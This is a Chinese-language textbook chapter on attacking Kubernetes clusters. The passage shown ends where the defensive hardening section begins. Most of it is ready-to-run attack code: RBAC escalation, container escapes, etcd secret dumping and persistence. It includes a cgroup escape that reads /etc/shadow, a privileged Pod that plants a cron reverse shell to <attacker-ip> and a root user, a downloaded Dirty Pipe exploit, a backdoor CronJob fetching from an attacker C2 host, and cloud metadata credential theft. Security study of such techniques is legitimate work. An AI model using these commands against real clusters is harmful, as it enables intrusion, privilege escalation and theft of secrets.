



## 19.4 Kubernetes安全核心技巧

Kubernetes（K8s）是当前最主流的容器编排平台，管理着从开发到生产的整个容器生命周期。由于其架构复杂、组件众多、权限模型精细，K8s 集群成为攻击者在云环境中重点突破的目标。本节从攻击者视角出发，系统讲解 Kubernetes 集群的枚举探测、权限提升、容器逃逸、etcd 数据窃取、网络策略绕过等核心攻击技术，同时涵盖对应的防御加固方案。

### 19.4.1 Kubernetes 架构与攻击面概览

在深入攻击技术之前，必须理解 K8s 的核心组件及其暴露的攻击面。



**核心攻击面清单**：

| 组件 | 默认端口 | 暴露风险 | 攻击优先级 |
|------|----------|----------|-----------|
| API Server | 6443/8443 | 主入口，所有操作经过此处 | ★★★★★ |
| etcd | 2379 | 存储全部集群状态和密钥 | ★★★★★ |
| kubelet | 10250 | 控制单个节点上的所有 Pod | ★★★★ |
| Dashboard | 8443/30000 | Web UI，常有配置缺陷 | ★★★ |
| kube-proxy | 10256 | 服务发现与负载均衡 | ★★ |
| Scheduler | 10259 | 调度逻辑可被操纵 | ★★ |
| Controller Manager | 10257 | 控制循环逻辑 | ★★ |

### 19.4.2 集群枚举技术

枚举是攻击的第一步。通过系统化信息收集，构建集群的完整画像。

#### 19.4.2.1 API Server 探测

API Server 是集群的中枢，所有操作都通过它进行。以下是全面的枚举方法：

```bash
# 1. 基本集群信息
kubectl cluster-info
kubectl version --short
kubectl api-versions
kubectl api-resources --verbs=list -o wide

# 2. 节点信息枚举
kubectl get nodes -o wide                    # 节点列表 + OS/内核/IP
kubectl describe node <node-name>            # 详细信息含标签/容量/条件
kubectl get nodes --show-labels              # 所有标签（常含环境标识）
kubectl top nodes                            # 资源使用情况

# 3. 工作负载枚举
kubectl get pods --all-namespaces -o wide    # 全部Pod含节点分配
kubectl get pods --all-namespaces -o json    # JSON格式含完整spec
kubectl get deployments --all-namespaces     # 部署清单
kubectl get statefulsets --all-namespaces    # 有状态服务
kubectl get daemonsets --all-namespaces      # 守护进程集
kubectl get jobs,cronjobs --all-namespaces   # 定时任务（常含敏感操作）

# 4. 服务发现
kubectl get services --all-namespaces        # ClusterIP/NodePort/LoadBalancer
kubectl get ingress --all-namespaces         # 入口规则（暴露的域名路径）
kubectl get endpoints --all-namespaces       # 实际后端地址

# 5. 存储与配置
kubectl get pv,pvc --all-namespaces          # 持久卷（常挂载宿主机路径）
kubectl get storageclasses                   # 存储类（含 provisioner 信息）
kubectl get configmaps --all-namespaces      # 配置数据
kubectl get secrets --all-namespaces         # 密钥列表
```

#### 19.4.2.2 权限探测

权限探测决定了后续攻击路径，必须在枚举阶段完成：

```bash
# 当前身份确认
kubectl auth whoami 2>/dev/null || kubectl config view --minify

# 完整权限列表
kubectl auth can-i --list

# 关键权限逐项检查
kubectl auth can-i get secrets --all-namespaces
kubectl auth can-i create pods --all-namespaces
kubectl auth can-i exec pods --all-namespaces
kubectl auth can-i create deployments --all-namespaces
kubectl auth can-i create clusterrolebindings
kubectl auth can-i impersonate users
kubectl auth can-i list nodes
kubectl auth can-i get serviceaccounts --all-namespaces
kubectl auth can-i create token <sa-name> -n <namespace>  # K8s 1.24+

# 批量枚举所有可用动词
for verb in get list create update patch delete; do
  for resource in secrets pods deployments serviceaccounts \
    configmaps roles clusterroles; do
    result=$(kubectl auth can-i $verb $resource --all-namespaces 2>&1)
    echo "$verb $resource -> $result"
  done
done
```

#### 19.4.2.3 kubelet 枚举

kubelet 在 10250 端口暴露 API，匿名访问常被忽略：

```bash
# 检测kubelet是否允许匿名访问
curl -sk https://<node-ip>:10250/pods | jq '.items[] | 
  {name: .metadata.name, namespace: .metadata.namespace, 
   node: .spec.nodeName, containers: [.spec.containers[].name]}'

# 获取节点运行的所有Pod
curl -sk https://<node-ip>:10250/runningpods/ | jq .

# 尝试在Pod中执行命令（需要认证）
curl -sk -XPOST "https://<node-ip>:10250/run/<namespace>/<pod>/<container>" \
  -d "cmd=id"

# 获取Pod日志
curl -sk "https://<node-ip>:10250/containerLogs/<namespace>/<pod>/<container>"

# 检查kubelet配置
curl -sk https://<node-ip>:10250/configz | jq .

# 使用kubelet证书枚举
curl -sk --cert kubelet-client.crt --key kubelet-client.key \
  https://<node-ip>:10250/pods | jq .
```

#### 19.4.2.4 自动化枚举工具

```bash
# kubeaudit - 安全审计工具
kubeaudit all -n <namespace>

# kube-hunter - 主动猎杀工具（从集群内部运行）
kubectl run kube-hunter --rm -it --image=aquasec/kube-hunter \
  --restart=Never -- --pod

# kube-hunter 从集群外部扫描
docker run --rm -it aquasec/kube-hunter --remote <target-ip>

# kube-bench - CIS基准检查
kubectl run kube-bench --rm -it --image=aquasec/kube-bench \
  --restart=Never -- --benchmark cis-1.8

# Peirates - Kubernetes攻击工具集
kubectl run peirates --rm -it --image=inguardians/peirates --restart=Never

# CDK - 云环境攻击工具包（支持K8s）
# https://github.com/cdk-team/CDK
./cdk evaluate   # 自动评估当前环境的攻击面
```

### 19.4.3 认证与授权攻击

#### 19.4.3.1 Service Account Token 利用

每个 Pod 默认挂载 Service Account Token，这是最常见的攻击入口：

```bash
# 1. 读取当前Pod的Service Account信息
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
APISERVER="https://kubernetes.default.svc"

# 2. 确认身份
curl -sk --cacert "$CACERT" \
  -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews" \
  -H 'Content-Type: application/json' \
  -X POST -d '{
    "kind": "SelfSubjectRulesReview",
    "apiVersion": "authorization.k8s.io/v1",
    "spec": {"namespace": "'"$NAMESPACE"'"}
  }' | jq .

# 3. 列出当前命名空间的secrets
curl -sk --cacert "$CACERT" \
  -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/namespaces/$NAMESPACE/secrets" | jq .

# 4. 如果权限足够，跨命名空间获取secrets
curl -sk --cacert "$CACERT" \
  -H "Authorization: Bearer $TOKEN" \
  "$APISERVER/api/v1/secrets" | jq .

# 5. 创建Token（K8s 1.24+ 使用TokenRequest API）
curl -sk --cacert "$CACERT" \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -X POST \
  "$APISERVER/api/v1/namespaces/$NAMESPACE/serviceaccounts/<sa-name>/token" \
  -d '{
    "apiVersion": "authentication.k8s.io/v1",
    "kind": "TokenRequest",
    "spec": {"expirationSeconds": 86400}
  }'
```

**K8s 1.24+ 重要变化**：默认不再自动创建长期 ServiceAccount Token Secret。需要通过 TokenRequest API 手动创建，或在 ServiceAccount 上设置 `automountServiceAccountToken: false` 来禁用自动挂载。

#### 19.4.3.2 RBAC 权限提升

RBAC（Role-Based Access Control）配置错误是 K8s 最常见的安全漏洞之一：

**典型权限提升路径**：



**攻击方式一：获取其他 Service Account 的 Token**

```bash
# 如果有secrets读权限，直接获取其他SA的token
kubectl get secrets --all-namespaces -o json | jq -r \
  '.items[] | select(.type=="kubernetes.io/service-account-token") | 
   {namespace: .metadata.namespace, name: .metadata.name, 
    token: .data.token | @base64d}'

# 使用获取的token执行操作
kubectl --token="<stolen-token>" get pods --all-namespaces
```

**攻击方式二：创建 ClusterRoleBinding**

```bash
# 如果有clusterrolebinding创建权限
kubectl create clusterrolebinding evil-binding \
  --clusterrole=cluster-admin \
  --serviceaccount=<namespace>:<sa-name>

# 验证提权结果
kubectl auth can-i '*' '*'
```

**攻击方式三：创建 Token（K8s 1.24+）**

```bash
# 如果有token创建权限，为高权限SA创建新token
kubectl create token <sa-name> -n <namespace> --duration=24h

# 使用新token
kubectl --token="<new-token>" get secrets --all-namespaces
```

**攻击方式四：Impersonation（身份冒充）**

```bash
# 如果有impersonate权限
kubectl auth can-i impersonate users
kubectl --as=system:masters get secrets --all-namespaces
kubectl --as=system:serviceaccount:<ns>:<sa> get pods
```

#### 19.4.3.3 RBAC 横向扫描脚本

```bash
#!/bin/bash
# rbac-audit.sh - 扫描所有SA的权限并标记高危权限
DANGEROUS_PERMS=(
  "secrets *"
  "clusterrolebindings create"
  "roles bind"
  "serviceaccounts/token create"
  "pods/exec create"
  "pods create"
  "* *"
)

echo "=== Service Account 权限审计 ==="
for ns in $(kubectl get ns -o jsonpath='{.items[*].metadata.name}'); do
  for sa in $(kubectl get sa -n $ns -o jsonpath='{.items[*].metadata.name}'); do
    echo "--- $ns/$sa ---"
    kubectl auth can-i --list --as=system:serviceaccount:$ns:$sa 2>/dev/null | \
      grep -E "(secrets|clusterrole|serviceaccounts/token|pods/exec|pods/create)" | \
      head -20
  done
done
```

### 19.4.4 容器逃逸技术

容器逃逸是从容器内获取宿主机权限的关键步骤，也是 K8s 攻击的核心环节。

#### 19.4.4.1 特权容器逃逸

当容器以 `privileged: true` 运行时，拥有宿主机的全部设备访问权限：

```bash
# 1. 检测特权模式
cat /proc/1/status | grep -i cap
# CapEff: 0000003fffffffff 表示全部能力

# 2. 更精确的能力检测
capsh --print 2>/dev/null || cat /proc/1/status | grep Cap

# 3. 特权容器直接逃逸 - 方式A：挂载宿主机磁盘
mkdir -p /mnt/host
mount /dev/sda1 /mnt/host     # 系统盘
chroot /mnt/host /bin/bash

# 4. 特权容器逃逸 - 方式B：挂载宿主机cgroup写文件
# 利用cgroup notify_on_release机制
d=$(dirname $(ls -x /s*/fs/c*/*/r* | head -n1))
mkdir -p $d/x
echo 1 > $d/x/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$d/x/release_agent" > $d/release_agent
echo "#!/bin/sh" > /$d/x/release_agent
echo "cat /etc/shadow > $host_path/output" >> /$d/x/release_agent
sh -c "echo \$\$ > $d/x/cgroup.procs"

# 5. 特权容器逃逸 - 方式C：挂载宿主机命名空间
# 通过PID 1的命名空间进入宿主机
nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash
```

#### 19.4.4.2 安全上下文逃逸

即使非特权容器，错误的安全配置也会导致逃逸：

**利用 hostPID**：
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: hostpid-escape
spec:
  hostPID: true           # 共享宿主机PID命名空间
  containers:
  - name: escape
    image: alpine
    command: ["/bin/sh", "-c"]
    args:
    - |
      # 利用 /proc/<宿主机PID>/root 访问宿主机文件系统
      NSPID=$(ls /proc | grep -E '^[0-9]+$' | sort -n | tail -1)
      nsenter --target $NSPID --mount --uts --ipc --net --pid -- /bin/sh
    securityContext:
      privileged: true     # 通常需要配合 privileged
```

**利用 hostPath 挂载**：
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: hostpath-escape
spec:
  containers:
  - name: escape
    image: alpine
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
    - name: host-root
      mountPath: /host
      readOnly: false
  volumes:
  - name: host-root
    hostPath:
      path: /              # 挂载宿主机根目录
      type: Directory
```

**利用 hostNetwork**：
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: hostnet-recon
spec:
  hostNetwork: true        # 使用宿主机网络命名空间
  containers:
  - name: recon
    image: nicolaka/netshoot
    command: ["/bin/sh", "-c"]
    args:
    - |
      # 可以扫描宿主机所在网络的所有服务
      # 访问localhost的kubelet API、etcd等
      curl -sk https://localhost:10250/pods
      curl -sk https://localhost:2379/v3/kv/range \
        -X POST -d '{"key": "L2t5cy8=", "range_end": "L2t5dA=="}'
```

#### 19.4.4.3 危险卷挂载类型

| 挂载类型 | 风险等级 | 攻击方式 |
|----------|----------|----------|
| hostPath: / | ★★★★★ | 直接访问宿主机完整文件系统 |
| hostPath: /var/run/docker.sock | ★★★★★ | 控制Docker daemon，创建新容器逃逸 |
| hostPath: /etc/shadow | ★★★★ | 获取宿主机用户密码哈希 |
| hostPath: /root/.ssh | ★★★★ | 获取SSH私钥，横向移动 |
| hostPath: /var/lib/kubelet | ★★★★ | 修改kubelet配置或Pod定义 |
| PersistentVolume (hostPath) | ★★★ | 取决于PV挂载的宿主机路径 |
| configMap/secret (subPath) | ★★ | 通过subPath mount覆盖系统文件 |

**Docker Socket 逃逸**：
```bash
# 如果容器挂载了 /var/run/docker.sock
# 创建新容器挂载宿主机根目录
apt install -y curl
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/v1.41/containers/create" \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine",
    "Cmd": ["/bin/sh", "-c", "sleep infinity"],
    "Binds": ["/:/host:rw"]
  }'

# 获取新容器ID并启动
CONTAINER_ID=$(curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/v1.41/containers/create" \
  -H "Content-Type: application/json" \
  -d '{"Image":"alpine","Cmd":["sleep","infinity"],"Binds":["/:/host:rw"]}' \
  | jq -r '.Id')

curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/v1.41/containers/$CONTAINER_ID/start"

# exec进入新容器
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/v1.41/containers/$CONTAINER_ID/exec" \
  -H "Content-Type: application/json" \
  -d '{"Cmd":["chroot","/host","/bin/bash"]}' | jq -r '.Id'

# 执行命令获取宿主机shell
EXEC_ID="<上面的输出>"
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/v1.41/exec/$EXEC_ID/start" \
  -H "Content-Type: application/json" \
  -d '{"Detach": false, "Tty": true}'
```

#### 19.4.4.4 内核漏洞逃逸

当容器配置较严格（非特权、无危险挂载）时，可利用内核漏洞逃逸：

```bash
# 检测内核版本（宿主机内核版本在容器内可见）
uname -r

# CVE-2022-0185 - Heap overflow in legacy_parse_param
# 影响：Linux 5.1-5.16.2，利用 fsconfig 系统调用
# 条件：容器需要 CAP_SYS_ADMIN 或 unprivileged_userns_clone=1
# https://www.willsroot.io/2022/01/cve-2022-0185.html

# CVE-2022-0492 - cgroup release_agent 提权
# 影响：Linux < 5.17
# 条件：需要 CAP_SYS_ADMIN
# 检测：grep -E 'release_agent' /proc/self/cgroup

# CVE-2022-0847 - Dirty Pipe
# 影响：Linux 5.8 - 5.16.11, 5.15.25, 5.10.102
# 条件：任意文件读取权限即可
# 利用方式：覆写 SUID 二进制文件或 /etc/passwd
curl -o dirtypipe https://raw.githubusercontent.com/imfiver/CVE-2022-0847-DirtyPipe-Exploit/main/dirtypipe
chmod +x dirtypipe
./dirtypipe /usr/bin/su        # 覆写SUID文件
# 或
./dirtypipe /etc/passwd 1 "${UID}::0:0:root:/root:/bin/sh"  # 添加root用户

# CVE-2023-0386 - OverlayFS 提权
# 影响：Linux 5.11 - 6.2
# 利用 OverlayFS 的文件拷贝机制绕过 user namespace 限制
```

#### 19.4.4.5 创建特权 Pod 逃逸

当拥有 Pod 创建权限但当前容器非特权时：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc-pod
  namespace: default
spec:
  hostPID: true
  hostNetwork: true
  hostIPC: true
  containers:
  - name: privesc
    image: alpine:latest
    command: ["/bin/sh", "-c"]
    args:
    - |
      # 安装工具
      apk add --no-cache util-linux bash
      
      # 挂载宿主机文件系统
      mkdir -p /host
      mount /dev/sda1 /host 2>/dev/null || mount /dev/vda1 /host 2>/dev/null
      
      # 方法1：写入SSH公钥
      mkdir -p /host/root/.ssh
      echo "ssh-rsa AAAA..." >> /host/root/.ssh/authorized_keys
      
      # 方法2：写入crontab反弹shell
      echo "* * * * * root bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1" \
        > /host/etc/cron.d/evil
      
      # 方法3：修改 /etc/passwd 添加用户
      echo "toor:$(openssl passwd -1 -salt abc Password123):0:0:root:/root:/bin/bash" \
        >> /host/etc/passwd
      
      # 保持容器运行
      sleep infinity
    securityContext:
      privileged: true
      capabilities:
        add: ["SYS_ADMIN"]
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
  restartPolicy: Never
```

```bash
# 使用kubectl创建Pod
kubectl apply -f privesc-pod.yaml

# 等待Pod运行
kubectl wait --for=condition=Ready pod/privesc-pod --timeout=60s

# exec进入
kubectl exec -it privesc-pod -- /bin/sh
```

### 19.4.5 etcd 数据窃取

etcd 是 K8s 的分布式键值存储，保存着集群的全部状态数据，包括所有 Secret、ConfigMap、RBAC 配置等。直接访问 etcd 等于获取集群的最高权限。

#### 19.4.5.1 etcd 访问方式

**方式一：通过 etcdctl 直接访问**

```bash
# 1. 检测etcd是否可达
ETCDCTL_API=3 etcdctl \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  endpoint health

# 2. 无证书探测（测试是否允许匿名访问）
ETCDCTL_API=3 etcdctl \
  --endpoints=https://<target>:2379 \
  --insecure-skip-tls-verify \
  endpoint health

# 3. 获取所有key（有证书时）
ETCDCTL_API=3 etcdctl \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/healthcheck-client.crt \
  --key=/etc/kubernetes/pki/etcd/healthcheck-client.key \
  get / --prefix --keys-only

# 4. 获取所有Secret
ETCDCTL_API=3 etcdctl \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/healthcheck-client.crt \
  --key=/etc/kubernetes/pki/etcd/healthcheck-client.key \
  get /registry/secrets --prefix | grep -E "^/registry/secrets" -A 20

# 5. 获取所有Service Account Token
ETCDCTL_API=3 etcdctl \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/healthcheck-client.crt \
  --key=/etc/kubernetes/pki/etcd/healthcheck-client.key \
  get /registry/serviceaccounts --prefix
```

**方式二：通过 API Server 代理访问**

```bash
# API Server 本身是 etcd 的代理，通过API访问
# 如果有足够权限，使用 kubectl 间接读取 etcd 中的数据
kubectl get secrets --all-namespaces -o json | jq -r \
  '.items[] | "\(.metadata.namespace)/\(.metadata.name): \(.data | keys)"'

# 导出特定secret
kubectl get secret <secret-name> -n <namespace> -o jsonpath='{.data.\.dockerconfigjson}' | base64 -d
kubectl get secret <secret-name> -n <namespace> -o jsonpath='{.data.token}' | base64 -d
```

#### 19.4.5.2 etcd 数据解码

etcd 中的 K8s 资源以 Protocol Buffer 编码存储，需要正确解码：

```bash
# 使用 etcdctl 的 decode 功能（如果支持）
ETCDCTL_API=3 etcdctl get /registry/secrets/default/my-secret \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/healthcheck-client.crt \
  --key=/etc/kubernetes/pki/etcd/healthcheck-client.key \
  --write-out=json | jq '.kvs[0].value | @base64d'

# 使用 protoc 解码（更通用）
# 先获取原始字节
ETCDCTL_API=3 etcdctl get /registry/secrets/default/my-secret \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=ca.crt --cert=client.crt --key=client.key \
  --write-out=json > /tmp/etcd-raw.json

# 使用 python 解码
python3 -c "
import json, base64
with open('/tmp/etcd-raw.json') as f:
    data = json.load(f)
value = base64.b64decode(data['kvs'][0]['value'])
# K8s资源的value前面有metadata header，跳过后是JSON
# 寻找第一个 { 的位置
start = value.find(b'{')
if start >= 0:
    print(json.dumps(json.loads(value[start:]), indent=2))
"
```

#### 19.4.5.3 etcd 快照备份窃取

```bash
# 创建etcd快照（最直接的数据窃取方式）
ETCDCTL_API=3 etcdctl snapshot save /tmp/etcd-snapshot.db \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key

# 验证快照
ETCDCTL_API=3 etcdctl snapshot status /tmp/etcd-snapshot.db --write-out=table

# 从快照恢复到本地etcd实例进行离线分析
ETCDCTL_API=3 etcdctl snapshot restore /tmp/etcd-snapshot.db \
  --data-dir=/tmp/etcd-restored

# 启动本地etcd实例加载恢复的数据
etcd --data-dir=/tmp/etcd-restored --listen-client-urls=http://0.0.0.0:2379

# 然后用etcdctl连接本地实例进行完整数据提取
```

### 19.4.6 网络攻击与策略绕过

#### 19.4.6.1 集群网络探测

```bash
# 从Pod内部探测集群网络
# 1. DNS枚举 - 发现所有Service
nslookup kubernetes.default.svc.cluster.local
# 2. 枚举所有命名空间的service（如果有CoreDNS权限）
for ns in $(kubectl get ns -o jsonpath='{.items[*].metadata.name}'); do
  for svc in $(kubectl get svc -n $ns -o jsonpath='{.items[*].metadata.name}'); do
    echo "=== $ns/$svc ==="
    nslookup $svc.$ns.svc.cluster.local 2>/dev/null | grep Address
  done
done

# 3. 扫描Service CIDR
# 先确定Service CIDR
kubectl cluster-info dump | grep -E 'service-cluster-ip-range|cluster-cidr'

# 4. 使用nmap扫描Pod网络（如果允许出站）
# 通过环境变量获取当前Pod IP和子网
ip addr show eth0
# 扫描同网段
nmap -sn 10.244.0.0/24

# 5. 使用kubectl proxy绕过网络策略
kubectl proxy --port=8001 &
curl http://localhost:8001/api/v1/namespaces/<ns>/services/<svc>:<port>/proxy/
```

#### 19.4.6.2 网络策略绕过

当 NetworkPolicy 限制了 Pod 间通信时：

```bash
# 1. 利用 hostNetwork Pod 绕过
# hostNetwork Pod 不受 NetworkPolicy 约束
kubectl run net-escape --rm -it --image=nicolaka/netshoot \
  --overrides='{"spec":{"hostNetwork":true}}' -- /bin/bash

# 2. 利用已有的 NodePort/LoadBalancer Service
kubectl get svc --all-namespaces -o wide | grep -E 'NodePort|LoadBalancer'

# 3. 利用 Ingress Controller 绕过
# Ingress Controller 通常在所有命名空间都有访问权限
kubectl get ingress --all-namespaces

# 4. 利用 DNS 查询通道（UDP 53 通常放行）
# 通过 DNS 查询泄露数据
# 可使用工具如 dns2tcp、iodine 等

# 5. 利用 egress 策略的默认放行规则
# 很多集群只配了 ingress 策略，未限制 egress
# 可以通过 curl 外部服务器发送数据
```

### 19.4.7 供应链攻击

#### 19.4.7.1 镜像投毒

```bash
# 1. 检查集群中使用的镜像
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.spec.containers[*].image}{"\n"}{end}' | sort -u

# 2. 检查镜像是否有签名验证
kubectl get pods --all-namespaces -o json | jq '.items[].spec.containers[] | 
  select(.image | test("gcr.io|docker.io|quay.io")) | 
  {pod: .name, image: .image}'

# 3. 检查ImagePullPolicy
kubectl get pods --all-namespaces -o json | jq '.items[].spec.containers[] | 
  {image: .image, pullPolicy: .imagePullPolicy}'

# 4. 利用私有镜像仓库
# 如果有imagePullSecrets，可获取仓库凭据
kubectl get secrets --all-namespaces -o json | jq '.items[] | 
  select(.type=="kubernetes.io/dockerconfigjson") | 
  {ns: .metadata.namespace, name: .metadata.name, 
   config: .data[".dockerconfigjson"] | @base64d}'
```

#### 19.4.7.2 Helm Chart 注入

```bash
# 1. 检查Helm releases
helm list --all-namespaces

# 2. 检查Helm chart中的安全配置
helm get values <release-name> -n <namespace> --all

# 3. 如果有Helm操作权限，可以通过修改values注入后门
helm upgrade <release-name> <chart> -n <namespace> \
  --set "image.repository=attacker/evil-image" \
  --set "image.tag=latest"
```

### 19.4.8 持久化与横向移动

#### 19.4.8.1 集群内持久化

```bash
# 1. 创建后门Service Account
kubectl create serviceaccount backdoor-sa -n kube-system
kubectl create clusterrolebinding backdoor-binding \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:backdoor-sa

# 2. 创建长期Token
kubectl create token backdoor-sa -n kube-system --duration=8760h

# 3. 部署后门CronJob
cat <<EOF | kubectl apply -f -
apiVersion: batch/v1
kind: CronJob
metadata:
  name: backdoor-job
  namespace: kube-system
spec:
  schedule: "*/30 * * * *"
  jobTemplate:
    spec:
      template:
        spec:
          serviceAccountName: backdoor-sa
          containers:
          - name: backdoor
            image: busybox
            command: ["/bin/sh", "-c"]
            args:
            - |
              # 定期上报或执行命令
              wget -q -O- http://<attacker-ip>:8080/c2
          restartPolicy: OnFailure
EOF

# 4. 修改现有Deployment注入后门容器
kubectl patch deployment <target-deployment> -n <namespace> --type='json' \
  -p='[{"op":"add","path":"/spec/template/spec/containers/-","value":{
    "name":"backdoor","image":"attacker/sidecar","command":["sleep","infinity"]
  }}]'

# 5. 利用MutatingWebhook实现持久化（高级）
# 创建一个MutatingAdmissionWebhook，自动在所有新建Pod中注入后门容器
```

#### 19.4.8.2 横向移动

```bash
# 1. 利用kubelet API从一个节点移动到另一个节点
# 通过exec到目标节点上的Pod
kubectl exec -it <pod-on-target-node> -- /bin/sh

# 2. 利用hostNetwork Pod扫描其他节点
kubectl run scanner --rm -it --image=nicolaka/netshoot \
  --overrides='{"spec":{"hostNetwork":true}}' -- /bin/bash
# 在容器内扫描所有节点
for node in $(kubectl get nodes -o jsonpath='{.items[*].status.addresses[?(@.type=="InternalIP")].address}'); do
  echo "=== Scanning $node ==="
  nmap -sT -p 10250,2379,6443,8443 $node
done

# 3. 利用云元数据服务
# AWS
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
# GCP
curl -s -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
# Azure
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

### 19.4.9 安全加固与防御

#### 19.4.9.1 Pod 安全标准

K8s 1.25+ 引入 Pod Security Standards（PSS），替代已废弃的 PodSecurityPolicy：

```yaml
